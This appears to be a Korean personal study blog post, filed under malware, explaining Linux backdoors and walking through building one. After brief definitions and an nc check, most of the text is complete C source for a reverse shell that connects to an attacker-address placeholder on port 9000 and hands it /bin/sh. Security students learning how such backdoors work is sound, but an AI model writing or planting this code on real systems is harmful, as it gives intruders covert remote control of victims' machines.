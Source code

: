 ```yaml
---
title:  "backdoor-linux" 

categories:
  - 악성코드
tags:
  - [backdoor,linux]

toc: true

date: 2022-10-18
last_modified_at: 2022-10-18
---
```


## backdoor - linux

- 정상 인증을 거치지 않고 시스템에 접근

- local backdoor      : 관리자의 권한을 취득

- remote backdoor  : 인증없이 접근



- 구성도

- nc 실행하여 설치 되어있는지 확인

  ```
  [root@localhost ~]# nc
  ```

  ![화면 캡처 2022-10-18 191131](../../assets/img/화면 캡처 2022-10-18 191131.png)

- 공격대상에 백도어+ 쉘 소스코드생성

  ```
  [root@localhost ~]# vim /root/reverse_shell.c
  
  #include <sys/socket.h>
  #include <netinet/in.h>
  #include <arpa/inet.h>
  #include <netdb.h>
  #include <unistd.h>
  #include <errno.h>
  int main(int argc, char* argv[])
  {
          struct sockaddr_in server_addr;
          int server_sock;
          int client_len;
          char buf[80];
          char rbuf[80];
          char *cmd[2] = {"/bin/sh",(char *)0};
          server_sock = socket(AF_INET, SOCK_STREAM, 6);
          server_addr.sin_family =  AF_INET;
          server_addr.sin_addr.s_addr = inet_addr("공격자주소");
          server_addr.sin_port = htons(atoi("9000"));
          client_len =  sizeof(server_addr);
          connect(server_sock,(struct sockaddr *) &server_addr, client_len);
          dup2(server_sock, 0);
          dup2(server_sock, 1);
          dup2(server_sock, 2);
          execve("/bin/sh", cmd, 0);
          return 0;
  }
  ```